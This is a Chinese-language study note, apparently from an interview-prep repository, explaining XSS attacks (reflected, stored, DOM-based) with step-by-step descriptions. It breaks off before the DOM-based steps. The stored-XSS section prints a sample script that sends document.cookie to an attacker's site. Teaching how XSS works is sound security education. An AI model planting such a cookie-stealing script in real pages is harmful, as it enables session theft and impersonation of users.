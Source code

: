 ![Image](/images/class2.png)

### 前端安全相关
>大家应该都知道一些这方面的知识，比如XSS、CSRF等，但是当别人问的更加详细时（如何实现相应的攻击等），就有可能回答不上来了。

#### XSS
>XSS(Cross Site Script)跨站脚本攻击。指的是攻击者向网页注入恶意的客户端代码，通过恶意的脚本对客户端网页进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户隐私数据的一种攻击方式。主要分为3种：

##### 反射型
>反射性XSS的原理是：反射性xss一般指攻击者通过特定的方式来诱惑受害者去访问一个包含恶意代码的URL。当受害者点击恶意链接url的时候，恶意代码会直接在受害者的主机上的浏览器执行。

>反射性XSS又可以叫做非持久性XSS。为什么叫反射型XSS呢？那是因为这种攻击方式的注入代码是从目标服务器通过错误信息，搜索结果等方式反射回来的，而为什么又叫非持久性XSS呢？那是因为这种攻击方式只有一次性。

>比如：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。

* 攻击步骤

1. 攻击者在url后面的参数中加入恶意攻击代码。
2. 当用户打开带有恶意代码的URL的时候，网站服务端将恶意代码从URL中取出，拼接在html中并且返回给浏览器端。
3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如cookie等信息，然后使用该信息来冒充合法用户的行为，调用目标网站接口执行攻击等操作。

##### 存储型
>存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。

>比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

* 攻击步骤

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

##### DOM型
>我们客户端的js可以对页面dom节点进行动态的操作，比如插入、修改页面的内容。比如说客户端从URL中提取数据并且在本地执行、如果用户在客户端输入的数据包含了恶意的js脚本的话，但是这些脚本又没有做任何过滤处理的话，那么我们的应用程序就有可能受到DOM-based XSS的攻击。

* 攻击步骤
